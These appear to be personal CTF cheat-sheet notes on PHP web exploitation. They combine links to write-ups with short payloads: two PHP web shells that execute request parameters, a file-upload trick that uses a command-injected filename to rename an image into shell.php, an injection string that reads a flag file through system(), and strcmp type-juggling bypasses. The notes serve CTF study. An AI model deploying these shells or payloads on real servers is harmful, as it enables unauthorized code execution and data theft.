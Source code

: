 # +

- https://github.com/ctfs/write-ups-2015/tree/master/codegate-ctf-2015/web/owlur
- https://www.arneswinnen.net/2013/11/hack-lu-2013-ctf-wannabe-writeup-part-one-web-exploitation/
- http://php.net/manual/en/wrappers.php

```html
<script language=PHP>eval($_GET['q']);</script>
<?php print_r(scandir('/')) ?>
```

```html
<?php echo system($_GET['s']); ?>
```
    > uploaded as shell.png, then uploaded another file: ´cd uploads;cd 6a9btoq20khkn8ln5lfhuo6v62;cp 65-shell.png shell.php´.png

```
flag','..')+or+system('cat+templates/flag.php');//
```

# server

```bash
php -S localhost:8000
```

# type juggling, weak comparison, magic hashes

```php
<?php
strcmp($_GET['user'], "admin") == 0
// => "admin1"

strcasecmp($_GET['secret'], "0x1337") == 0
// => ["1"]
```

# deserialization

- https://dpalbd.wordpress.com/ctf-writeup-serial-1/
- https://www.netsparker.com/blog/web-security/untrusted-data-unserialize-php/
- https://www.exploit-db.com/docs/english/44756-deserialization-vulnerability.pdf
- [GitHub \- galdeleon/35c3\_php: Solution for 35c3 php challenge](https://github.com/galdeleon/35c3_php)
    - ~/code/snippets/ctf/web/35c3_php/

# jail

[GitHub \- splitline/PHPFuck: PHPFuck: \(\(\+\.^\)\) / Using only 7 different characters to write and execute php\.](https://github.com/splitline/PHPFuck)
https://github.com/terjanq/Flag-Capture/blob/master/MeePwn%202018/omega/README.md#part2
https://gist.github.com/terjanq/aa39a5a40b8d9b8a8e2a54e747715a2c
    https://twitter.com/terjanq/status/1257276298550001664
